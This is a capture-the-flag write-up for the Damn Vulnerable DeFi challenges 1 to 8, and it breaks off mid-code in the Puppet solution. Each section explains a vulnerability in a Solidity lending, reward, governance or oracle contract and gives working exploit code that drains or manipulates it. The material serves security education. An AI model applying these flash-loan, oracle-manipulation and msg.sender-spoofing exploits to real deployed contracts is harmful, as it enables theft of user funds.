







# Writeup for DAMN Vulnerable DeFi

## 1 - Unstoppable

The unstoppable vault is an ERC4626 vault that gives out flash loans. The goal of the challenge is to DoS the vault so that is stops offering flash loans.

Looking at the `flashLoan` function there is a suspicious check in the beginning of the function. Breaking the condition will revert the transaction and stop the flash loan from being executed.

```javascript
uint256 balanceBefore = totalAssets();
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

To see what this check does we can break it into its parts:

1. `totalAssets()` is inherited and overwritten from ERC-4626 and returns the balance of DVT tokens of the vault. The vault starts with 1 million DVT tokens which this function returns.
2.`totalSupply` represent the total supply of shares of the vault. Because the deployer initially deposits 1 million DVT tokens into the vault, the total supply of shares is also 1 million.
3. `convertToShares(uint256 assets)` returns how many shares you would get for depositing a certain amount of assets. The usage here does not make logical sense since it passes in the total supply of shares. As used here the function simply multiplies the total amount of shares with itself and divides it by the balance of DVT tokens in the vault.

```javascript
function convertToShares(uint256 assets) public view virtual returns (uint256) {
    uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.
    // 1 million shares * 1 million shares / 1million DVT balance of the vault = 1 million
    return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
}
```

As we can see both sides of the equal sign of the if-statement `if (convertToShares(totalSupply) != balanceBefore)` rely on the balance of DVT tokens of the vault (both use `totalAssets()`). When we look closer we can see that the relationship is inverse. `balanceBefore` before grows when the balance of DVT tokens in the vault grows and `convertToShares(totalSupply)` shrinks when the balance of DVT tokens in the vault grows because since the balance is the divisor (`return supply == 0 ? assets : assets.mulDivDown(supply, -> This value here totalAssets());`).

The if-statement will always hold true when we send DVT tokens to the vault with the `deposit` function because it will create new shares. As a result both `convertToShares(totalSupply)` and `balanceBefore` will grow equally. So we want to get DVT tokens to the vault without using the `deposit` function. By calling `token.transfer(address(vault), 1e18);` we transfer tokens to the vault without calling `deposit`. The will increase `totalAssets()` by the amount we sent without increasing the total supply of shares. This will make the if-statement fail and revert the transaction. The vault cannot recover from this state and will stop offering flash loans.


## 2 - Naive Receiver

There is a pools with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The first goal is to secure all funds of the user who implemented a flash loan receiver. The second goal is to drain all the funds from the pool.

1. **First goal**: Draining all 10 WETH from the user's flash loan receiver contract is straightforward. The contract implements the `IERC3156FlashBorrower` which is good practice but the first parameter on the `onFlashLoan` function is not utilized. When checking the interface we see that the first parameter is the `initiator` of the flash loan. Becaus this parameter is not used, anyone can execute a flash loan on the behalf of the user who has to pay the fees. Because the fee is exactly 1 WETH and the user's flash loan receiver contract has 10 WETH, the attacker can execute 10 flash loans to drain the user's contract.

2. **Second goal**: The second goal is more difficult to accomplish. The user's contract is already drained so all funds to rescue are now in the pool. Idea: We have to be able to manipulate the `msg.sender` to be able to call withdraw in the name of the deployer who can withdraw all 1000 WETH in pool balance and all the fees since the deployer is also the `feeReceiver`.

### A little digression on meta transactions and ERC-2771

There is a meta transaction implementation in the form of the `BasicForwarder` contract. The idea of meta transactions is that a third party (relayer) sends transaction on the behalf of a user. The user signs a EIP-712 compliant transaction off-chain and sends it to the relayer who pays for the gas fees and forwards it to the actual contract. It is called meta transaction because the actual transaction is encoded in the `data` field of the relayed transaction. The target contract of the meta transaction need to know how to decode the original sender `msg.sender` and the calldata `msg.data` from the relayed transaction. This is where ERC-2771 comes into play which defines a standard on how to decode the original sender and calldata. The idea of ERC-2771 is very similar to ERC-4377 (account abstraction) in the way that a third party can pay the transaction fees for the user. The big downside of meta transactions opposed to account abstraction is that contracts have to be adjusted to know how to handle meta transaction which is not possible for non-upgradable legacy contracts. Source: [What are Meta Transactins](https://www.alchemy.com/overviews/meta-transactions)

### How to manipulate the msg.sender?

As defined in the ERC-2771 the `msg.sender` is encoded in the last 20 bytes of the meta transaction (`msg.data`). The forwarder ensures that the last 20 bytes are always the real request sender as can be seen in the code snippet below from the basic forwarder.

```javascript
// This will be the msg.data
bytes memory payload = abi.encodePacked(request.data, request.from);
```

The counter part is defined in the `NaiveReceiverPool` which extracts the real `msg.sender` from the last 20 bytes of the `msg.data` if the transaction is sent by the `BasicForwarder`, `trustedForwarder` in this case.

```javascript
function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:]));
        } else {
            return super._msgSender();
        }
    }
```

So we somehow have to find a solution where the `msg.sender` is the `BasicForwarder` but the last 20 bytes are the address of the deployer who owns all the WETH in the contract. Here comes the `Multicall` contract into play. The `NaiveReceiverPool` contract inherits from `Multicall` and therefore also has the `multicall(encodedFunctionData)` function. Multicall bundles together multiple calls into one transaction. It can be used to save on gas fees and to make multiple calls atomic i.e. when the last call fails all previous calls revert.
Here `multicall` give us the possibility to get rid of the encoded `msg.sender` in the last 20 bytes and replace it with a value of our own.
The `encodedFunctionData` passed to the `multicall(encodedFunctionData)` will be a call to the `withdraw(allTokensInPool, recovery)` function of the pool. As we know the last 20 bytes of the `encodedFunctionData` will be interpreted as the `msg.sender`. In the case of the encoded `withdraw` function this will be the address of the recovery account. The recovery is the wrong sender because doesn't have any tokens in the pool to steal. The solution is to encode more parameters in the `withdraw` function than it actually takes. An interesting learning I made was that excess function parameters are just ignored in an encoded function. This quirky behavior allows us to append the deployer address to the encoded call to have it as the last 20 bytes of the `msg.data` as can be seen below.

```javascript
abi.encodeWithSignature('withdraw(uint256,address)', WETH_IN_POOL + WETH_IN_RECEIVER, recovery, deployer);
```

When executing the `withdraw` function via the `multicall` function that was called by the `BasicForwarder` the `msg.sender` will be the `BasicForwarder` but the last 20 bytes of the `msg.data` will be the deployer address. This way we can withdraw all funds on the behalf of
the deployer and transfer them to the recovery account.



## 3 - Truster

Again we have a lending pool which offers flash loans. This time around the flash loans are free but in turn we don't start with any funds. The goal is to drain the million DVT tokens from the pool.

Let's look at the flashloan function:

```javascript
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
```

First we see that there are two addresses in the function signature that the caller can provide. The `borrower` address is the address that receives the flash loan and the `target` address is the address where the control flow is handed over to. There is no check on the `target` address or the `data` that is passed to the `target` address. We can choose an arbitrary address and function that is executed on the behalf of the flash loan lender. Transferring all the funds of the lender won't work since we are still within the balance checks of the function. Any decrease of the balance of the lender will revert the transaction. But what we can do is to approve the player to spend all the lenders DVT tokens. This way we can transfer
all the funds out of the lender after the flash loan function is finished executing. 

```javascript
bytes memory data = abi.encodeWithSignature("approve(address,uint256)", player, TOKENS_IN_POOL);
pool.flashLoan(0, player, address(token), data);
token.transferFrom(address(pool), recovery, TOKENS_IN_POOL);
```

This will drain all the tokens from the pool and transfer them to the recovery account.

## 4 - Side Entrance

The flash loan pool this time around has functions to deposit and withdraw eth from the pool. User can take out flash loans up to the amount of the pool's balance. The goal is to drain the pool's balance.

The protocol has one major flaw in it's design: There is no separate accounting for depositing/withdrawing and flash loans. When a user deposits ETH into the pool it will be added to the contracts balance:

```javascript
function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }
```

The same balance of the protocol is also used in the flash loan function to check whether the user has paid back the flash loan:


```javascript
function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

@>      if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```

The mixed up accounting can be exploited to extract the the funds that where taken in the flash loan. This exploit works by depositing all funds of the flash loan via the `deposit` function. Since the `deposit` function will add the funds to the contract's balance the check in the end of the `flashLoan` function (`address(this).balance < balanceBefore`) will succeed and the flash loan will be considered repaid. The player can then withdraw the funds from the pool because the pool thinks that the user withdraws their rightfully deposited funds.

The exploit is implemented in the `FlashLoanReceiver` contract. The user calls the `flashLoan` function of the attacker contract which in turn calls the `flashLoan` function of the pool. The callback of the pool to the attacker contract is the `execute` function which deposits all the funds into the pool. The pool will think that the flash loan was repaid and the attacker can withdraw the funds right after the flash loan was executed.

```javascript
contract FlashLoanReceiver is IFlashLoanEtherReceiver {

    SideEntranceLenderPool pool;

    constructor(SideEntranceLenderPool _pool) {
        pool = _pool;
    }

    function flashLoan(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
        msg.sender.call{value: amount}("");
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {}
}
```

## 5 - The Rewarder

The rewarder rewards users with DVT an WETH. For being rewarded they have to prove that they are in a set of chosen beneficiaries. The goal of the challenge is to drain all funds from the rewarder.

Users which received multiple rewards can claim them in one go since the `claimRewards()` supports handing in an array of claims. There are two possible vulnerabilities I want to check:
1. Is it possible to claim rewards for another user?
2. Is it possible to claim a reward twice?

### Testing the two vulnerabilities

1. Is it possible to claim rewards for another user?
When we want to claim another person's claim like in the example below, the transaction reverts with the error message `InvalidProof()`. 

```javascript
claims[0] = Claim({
    batchNumber: 0, // claim corresponds to first DVT batch
    amount: ALICE_DVT_CLAIM_AMOUNT,
    tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
    proof: merkle.getProof(dvtLeaves, 2) // Alice's address is at index 2
});
```
Let's have a look at the `claimRewards()` function so see why the call reverts. The beneficiaries are kept in a merkle tree, where the leafs are
hashes of the addresses of the beneficiaries and the amount they are allowed to claim. When calling the function the leaf is reconstructed from the
amount that was supplied as a function parameter and the `msg.sender` address. When trying to claim someone else's reward the leaf will not match what
is stored in the merkle tree since our `msg.sender` does to match the address of the rightful claimer. Thus the verification will fail and transaction will revert.

```javascript
bytes32 leaf = keccak256(abi.encodePacked(msg.sender, inputClaim.amount));
bytes32 root = distributions[token].roots[inputClaim.batchNumber];

if (!MerkleProof.verify(inputClaim.proof, root, leaf)) revert InvalidProof();
```

2. Is it possible to claim a reward twice?

When copying a valid claim and trying to claim it twice the transaction surprisingly goes through. But why is that the case? A claim is considered to be claimed when a specific bit for the claim is flipped to `1`.

```javascript
function _setClaimed(IERC20 token, uint256 amount, uint256 wordPosition, uint256 newBits) private returns (bool) {
        uint256 currentWord = distributions[token].claims[msg.sender][wordPosition];
        if ((currentWord & newBits) != 0) return false;

       // update state
        distributions[token].claims[msg.sender][wordPosition] = currentWord | newBits;
        distributions[token].remaining -= amount;

        return true;
}
```

When there is an overlap between the bits of the new claim and the claims the user has already done (`(currentWord & newBits)`) and function returns false indicating that the claim was already claimed. There are two places in the `claimRewards()` function where the `_setClaimed()` function is called and a revert is triggered if the claim was already claimed. But `_setClaimed()` is only called when certain conditions are met. E.g. the following one is only called on the last claim.

```javascript
if (i == inputClaims.length - 1) {
    console.log("Check performed for last claim");
    if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
}
```

To check whether there are paths where `_setClaimed()` is not called for duplicates, I created a decision tree based on the if-clauses of the function:



To make it a little easier to understand I painted in the paths for a call to `claimRewards()` with three identical claims:



As we can see the first iteration where the first claim is checked and paid out at the send does not set the claim to claimed. The same goes for the second iteration which can be repeated as long as the rewarder contract has funds. Only in the last claim the bitmap which keeps track of the claims is updated and the claim is considered to be claimed. To calculate of many times we can claim the same claim we can just divide the contracts balance by the claim amount. 

The following shows how the claims for both DVT and WETH are created in a loop and afterwards successfully claimed:

```javascript
// Let's claim rewards for player.
uint256 possibleDVTClaims = dvt.balanceOf(address(distributor)) / PLAYER_DVT_CLAIM_AMOUNT;
uint256 possibleWETHClaims = weth.balanceOf(address(distributor)) / PLAYER_WETH_CLAIM_AMOUNT;


// Set DVT and WETH as tokens to claim
IERC20[] memory tokensToClaim = new IERC20[](possibleDVTClaims+possibleWETHClaims);

for (uint256 i = 0; i < possibleDVTClaims; i++) {
    tokensToClaim[i] = IERC20(address(dvt));
}
for (uint256 i = 0; i < possibleWETHClaims; i++) {
    tokensToClaim[possibleDVTClaims+i] = IERC20(address(weth));
}

// Create Player's claims
Claim[] memory claims = new Claim[](possibleDVTClaims+possibleWETHClaims);

for (uint256 i = 0; i < possibleDVTClaims; i++) {
    claims[i] = Claim({
        batchNumber: 0, // claim corresponds to first DVT batch
        amount: PLAYER_DVT_CLAIM_AMOUNT,
        tokenIndex: i, // claim corresponds to first token in `tokensToClaim` array
        proof: merkle.getProof(dvtLeaves, 188) // The players address is at index 188
    });
}
for (uint256 i = 0; i < possibleWETHClaims; i++) {
    claims[possibleDVTClaims+i] = Claim({
        batchNumber: 0, // claim corresponds to first WETH batch
        amount: PLAYER_WETH_CLAIM_AMOUNT,
        tokenIndex: possibleDVTClaims+i, // claim corresponds to second token in `tokensToClaim` array
        proof: merkle.getProof(wethLeaves, 188) // The players address is at index 188
    });
}

distributor.claimRewards({inputClaims: claims, inputTokens: tokensToClaim});

weth.transfer(recovery, weth.balanceOf(address(player)));
dvt.transfer(recovery, dvt.balanceOf(address(player)));
```


## 6 - Selfie

The selfie pool has a governance token that can be used to queue actions. When an action has received more than half of the voting tokens supply of votes and 2 days have passed the action can be executed. The goal is to drain the pool's balance.

The pool has an `emergencyExit` function to transfer all of the contracts balance to a specified receiver. The function can only be called by the governance contract. The goal is to somehow exploit the governance contract to call the `emergencyExit` function and transfer all the funds to the attacker. 

Other than the flash loan pool before the selfie pool will give out the voting token when flash loaning and not the DVT token. At this point an idea how to exploit the pool becomes clearer: The attacker can flash loan the voting token, initiate an action with the gained voting power, pay back the voting token and wait 2 days before the action can be executed.

The main logic is in the attacker's `onFlashLoan` function. The attacker contract implements the `IERC3156FlashBorrower´` interface and thus the
`onFlashLoan` function. First the attacker has to delegate the voting power to itself to be able to use the votes. With the gained voting power the attacker can queue the action to call the emergency exit function of the pool. 

```javascript
function onFlashLoan(
        address, // initiator
        address, // token
        uint256, // amount
        uint256, // fee
        bytes calldata // data
    ) external override returns (bytes32) {
        // Delegate voting power to this contract
        token.delegate(address(this));
        // Action to emergency exit
        bytes memory emergencyExitFunction = abi.encodeWithSelector(pool.emergencyExit.selector, recovery);
        // Queue action to drain the pool
        governance.queueAction(address(pool), 0, emergencyExitFunction);
        // Approve the pool to pull the flash loan back
        token.approve(address(pool), token.balanceOf(address(this)));
        return keccak256("ERC3156FlashBorrower.onFlashLoan"); 
    }
```

After queueing the action the attacker has to wait 2 days and can than execute the action:

```javascript
vm.warp(block.timestamp + 2 days);
governance.executeAction(1);
```

## 7 - Compromised

The challenge presents a cryptic HTTP response from a DeFi project's web service. This project deals in NFTs, with prices determined by consulting three trusted sources.

Upon examining the challenge description, we suspect that the encoded messages may contain private keys for these trusted sources. If we can successfully decode these private keys, we could potentially manipulate the NFT prices. Analyzing the response we see two hex strings which are grouped into bytes. First we convert the hex strings to ASCII to make them human readable. The following example is only for the first hex string but could be done analogously for the second hex string.

```bash
4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30
```

The decoded ASCI string looks like the following:

```bash
MHg3ZDE1YmJhMjZjNTIzNjgzYmZjM2RjN2NkYzVkMWI4YTI3NDQ0NDc1OTdjZjRkYTE3MDVjZjZjOTkzMDYzNzQ0
```

It does not look like a private key. First, it contains non-hex characters and second it is too long to be a private key which has 64 hex characters. From the character set (A-Z, a-z, 0-9) and the length (88 characters) we can infer that it is likely a base64 encoded string. When decoding the string we get the following:

```bash
0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744
```

Which actually looks like a private key. Now we only need to check whether it is the private key to one of the trusted price sources. We have the public keys of all trusted sources. So when deriving the public key from the private key it should be one of the three public keys. 

With the following code snippet we can derive the public key from the private key:

```javascript
import {Web3} from 'web3';

// Your private key (without 0x prefix for web3.js)
const privateKey = '0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744';
// 0xCc8E57F3A9e4B3155F8D013fa3Aa03bD1E632a59

// Create a web3 instance
const web3 = new Web3();

// Get the account from the private key
const account = web3.eth.accounts.privateKeyToAccount(privateKey);

// Get the address
const address = account.address;

console.log('Address:', address);
```

The private keys correspond to the public keys of two trusted sources. This allows an attacker to send transactions on the behalf of the trusted sources, enabling manipulation of NFT prices. With control over two out of three sources, we can exploit a vulnerability in the oracle's design. The oracle uses the median value from the three sources rather than the average. This ensures that our manipulated price will always be selected as the authoritative value.


```javascript
// 1. Manipulate oracle prices with the found private keys to be 0
uint256 medianPriceBefore = oracle.getMedianPrice("DVNFT");

vm.startBroadcast(0x188Ea627E3531Db590e6f1D71ED83628d1933088);
oracle.postPrice("DVNFT", 0.1 ether);
vm.stopBroadcast();
vm.startBroadcast(0xA417D473c40a4d42BAd35f147c21eEa7973539D8);
oracle.postPrice("DVNFT", 0.1 ether);
vm.stopBroadcast();
uint256 medianPriceAfter = oracle.getMedianPrice("DVNFT");

// 2. Buy NFT for cheap
vm.prank(player);
uint256 tokenId = exchange.buyOne{value: 0.1 ether}();

// 3. Manipulate oracle prices again to be high
vm.startBroadcast(0x188Ea627E3531Db590e6f1D71ED83628d1933088);
oracle.postPrice("DVNFT", 999.1 ether);
vm.stopBroadcast();
vm.startBroadcast(0xA417D473c40a4d42BAd35f147c21eEa7973539D8);
oracle.postPrice("DVNFT", 999.1 ether);
vm.stopBroadcast();

// 4. Sell NFT for high price
vm.startPrank(player);
nft.approve(address(exchange), tokenId);
exchange.sellOne(tokenId);
vm.stopPrank();

// 5. Deposite ETH to recovery account
vm.prank(player);
(bool success, ) = payable(recovery).call{value: EXCHANGE_INITIAL_ETH_BALANCE}("");
require(success, "Transfer failed.");

// 6. Manipulate oracles prices to initial prices

vm.startBroadcast(0x188Ea627E3531Db590e6f1D71ED83628d1933088);
oracle.postPrice("DVNFT", 999 ether);
vm.stopBroadcast();
vm.startBroadcast(0xA417D473c40a4d42BAd35f147c21eEa7973539D8);
oracle.postPrice("DVNFT", 999 ether);
vm.stopBroadcast();
```

## 8 - Puppet

There is a lending pool which offers borrowing of DVT tokens. It requires a 2x collateral in ETH. The DVT's value in ETH is calculated based on the ratio of ETH to DVT tokens in the exchange. The goal is to save all DVT tokens from the lending pool. 

We start with a DVT balance 100x the amount that is in the exchange. As we know the ETH deposit required for borrowing DVT tokens is based on the DVT's value in ETH. The exchange has such low liquidity that we can easily manipulate the price of the "oracle" by depositing all our DVT tokens into it and therefore lowering the value of DVT. Before the deposit DVT, we needed 200,000 ETH to borrow 100,000 DVT tokens (2x collateral). The following snippet shows how all DVT tokens of the user are swapped for ETH in the exchange. 

```javascript
token.approve(address(uniswapV1Exchange), PLAYER_INITIAL_TOKEN_BALANCE);
uniswapV1Exchange.tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 15 minutes);       
```

The swap gave the player 9.9 ETH, so nearly all of the 10 ETH of the exchange. As a result the exchange is nearly out of ETH and has 1,010 DVT tokens. The "oracle" DVT price as shown in the next snippet will therefore return a very low value.

```javascript
function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    // 0.1 ETH / 1010 DVT
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

Now we only need to deposit 19.6 ETH to get all 100,000 DVT tokens. The following snippet shows the whole solution:

```javascript
    uint256 depositRequiredBefore = lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
    console.log("Deposit required before ETH deposit: %d", depositRequiredBefore);

    // Put all of the player's DVT into the dex to manipulate the price
    token.approve(address(uniswapV1Exchange), PLAYER_INITIAL_TOKEN_BALANCE);
